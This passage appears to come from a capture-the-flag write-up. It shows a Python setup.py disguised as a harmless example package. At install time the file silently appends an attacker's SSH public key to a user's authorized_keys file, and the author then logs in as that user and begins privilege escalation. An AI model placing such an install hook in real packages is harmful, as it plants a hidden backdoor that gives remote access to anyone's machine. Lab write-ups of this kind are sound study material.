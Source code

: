 <div class="filename"><span>setup.py</span></div>

```python
import setuptools

sshpub = "ssh-rsa AAAAB3N...7aaFJ2S8="

try:
    with open("/home/low/.ssh/authorized_keys", "a") as fh:
        fh.write(sshpub)
        fh.close()
except Exception:
    pass

setuptools.setup(
    name="example-pkg-dipshit",
    version="0.0.1",
    author="Example Author",
    author_email="author@example.com",
    description="A small example package",
    long_description="",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires='>=3.6',
)
```

Take note of the `try...except` clause in `setup.py` above. Without that, we wouldn't be able to upload the package because `/home/low/.ssh/authorized_keys` doesn't exists on my attacking machine.

{% include image.html image_alt="76f2f17c.png" image_src="/f6d69e00-f868-46b9-95db-9ecf8f2ea495/76f2f17c.png" %}

Bombs away. Let's see if I can log in as `low`.

{% include image.html image_alt="ff37d12c.png" image_src="/f6d69e00-f868-46b9-95db-9ecf8f2ea495/ff37d12c.png" %}

Sweet. Not surprisingly, `user.txt` at low's home directory.

{% include image.html image_alt="b8df81d5.png" image_src="/f6d69e00-f868-46b9-95db-9ecf8f2ea495/b8df81d5.png" %}

## Privilege Escalation

During enumeration of `low`'s account, I noticed that `low` is able to `sudo` as `root` with the following command.

{% include image.html image_alt="82033ce6.png" image_src="/f6d69e00-f868-46b9-95db-9ecf8f2ea495/82033ce6.png" %}
